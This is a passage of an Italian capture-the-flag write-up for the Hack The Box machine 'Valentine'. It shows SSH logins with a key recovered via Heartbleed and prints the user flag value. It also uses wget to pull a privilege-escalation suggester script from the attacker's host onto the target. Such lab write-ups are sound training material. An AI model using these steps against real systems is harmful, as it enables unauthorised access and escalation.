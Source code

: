 >NOTA SSH ( aggiorando il mac BigSur su cui è installa la macchina virtuale ho dovuto aggiungere un file "config" contente le seguenti istruzioni  (https://stackoverflow.com/questions/73795935/sign-and-send-pubkey-no-mutual-signature-supported)
```bash 
┌──(root㉿kali)-[/home/kali]
└─# cat /root/.ssh/config 
Host *
    PubkeyAcceptedKeyTypes=+ssh-rsa
    HostKeyAlgorithms=+ssh-rsa
```

Ci collegiamo tramitte ssh 
```bash
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# ssh -i hype_key_decrypted hype@10.10.10.79
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed May 17 04:21:24 2023 from 10.10.14.53
hype@Valentine:~$ 
```

>NOTA POSSIAMO ANCHE LOGGARCI CON "hype_key_encrypted" BASTA INSERIRE LA PASSWORD TORVATA CON HEARTBLEED AL MOMENTO DEL LOGIN 
```bash
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# ssh -i hype_key_encrypted hype@10.10.10.79     
Enter passphrase for key 'hype_key_encrypted': 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Wed May 17 03:25:07 2023 from 10.10.14.53
hype@Valentine:~$cat user.txt 
782669829a447d6bc2c84945afb3da3f
```

# PRIVIESC

Scarichiamo sulla macchina target "linux-exploit-suggester-2"
https://github.com/jondonas/linux-exploit-suggester-2

```bash
hype@Valentine:~$ wget http://10.10.14.53:8000/linux-exploit-suggester-2.pl
--2023-05-17 05:07:04--  http://10.10.14.53:8000/linux-exploit-suggester-2.pl
Connecting to 10.10.14.53:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24292 (24K) [text/x-perl]
Saving to: `linux-exploit-suggester-2.pl'

 0% [                                                                                 ] 0           --.-K/s              
100%[================================================================================>] 24,292      --.-K/s   in 0.1s    

2023-05-17 05:07:05 (171 KB/s) - `linux-exploit-suggester-2.pl' saved [24292/24292]

hype@Valentine:~$ 
hype@Valentine:~$ ls
```